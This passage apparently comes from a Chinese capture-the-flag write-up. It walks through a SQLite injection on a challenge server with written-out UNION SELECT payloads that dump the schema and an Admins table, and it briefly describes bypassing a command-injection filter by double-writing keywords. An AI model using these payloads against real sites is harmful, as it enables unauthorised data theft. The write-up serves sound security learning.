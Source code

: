 ```python
# 关于sqlite注入的payload可以查看https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

http://20.125.142.38:8956/profile?username=ek1ng'--+&pass=1&content=1
# 回显账号ek1ng相关内容，判断存在注入点

http://20.125.142.38:8956/profile?username=ek1ng'order by 4--+&pass=1&content=1
# order by 4正常回显，order by 5报错ORDER BY term out of range

http://20.125.142.38:8956/profile?username=ek1ng'union select 1,2,3,sqlite_version()--+&pass=1&content=1
# 通过存在判断出数据库类型为sqlite，版本为3.7.2

http://20.125.142.38:8956/profile?username=ek1ng'union select 1,2,3,sql FROM sqlite_schema--+&pass=1&content=1
# 回显no such table: sqlite_schema
```

根据<https://sqlite.org/forum/forumpost/d90adfbb0a>中提到3.30版本后sqlite_master才改名sqlite_schema,所以应该用sqlite_master。
![图 17](https://s2.loli.net/2022/08/14/7WjcUuZE3iwC4yA.png)  

```python
http://20.125.142.38:8956/profile?username=ek1ng'union select 1,2,3,sql FROM sqlite_master--+&pass=1&content=1
# 结果为CREATE TABLE Admins ( id INTEGER PRIMARY KEY AUTOINCREMENT, user TEXT NOT NULL, pass TEXT NOT NULL, content TEXT NOT NULL )，接下来从Admins表中查询content字段的值即可。

http://20.125.142.38:8956/profile?username=ek1ng'union select 1,2,3,content FROM Admins--+&pass=1&content=1
# shellctf{Sql_1Nj3c7i0n_B45iC_XD}
```

## Illusion

>Sometimes it happens things are there but you can't see it directly. We need to change our vision to make it visible. I believe you have that vision.
Flag format :- shellctf{H3re_1s_Fl4g}
Challenge url :- <http://20.125.142.38:8765/>
Alternate url :- <http://20.193.247.209:8111/>
Flag is in flag.txt file....

考察的点是命令注入，题目对很多字符和字符串存在过滤。

`Hint: "aabcbc".replace("abc","") = abc`

根据hint,可以用双写绕过过滤，之后不断进行尝试就可以啦

![图 4](https://s2.loli.net/2022/08/14/eXinRCBVautpyfQ.png)  

![图 5](https://s2.loli.net/2022/08/14/TXMOU9W51GgshFl.png)  
